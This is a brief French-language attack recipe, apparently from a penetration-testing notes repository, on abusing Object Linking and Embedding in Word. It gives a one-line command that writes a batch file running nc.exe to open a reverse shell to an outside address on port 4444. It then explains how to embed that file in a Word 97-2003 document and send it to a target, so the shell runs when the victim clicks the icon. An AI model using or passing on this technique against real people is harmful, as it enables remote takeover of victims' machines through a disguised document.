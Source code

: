 # Object Linking and Embedding

Cree un fichier

```sh
echo START cmd.exe /c nc.exe 192.168.45.128 4444 -e cmd.exe > lauch.bat
```

Creer un document word et aller dans: 
`Insertion -> Objet -> Cree a partir du fichier`

Puis selection le fichier `lauch.bat`

Enregistrons le en tant quemodèle `Document Word 97-2003`

Envoyer a la cible a l'ouverture du document et au clique sur l'icone, le fichier sera executer
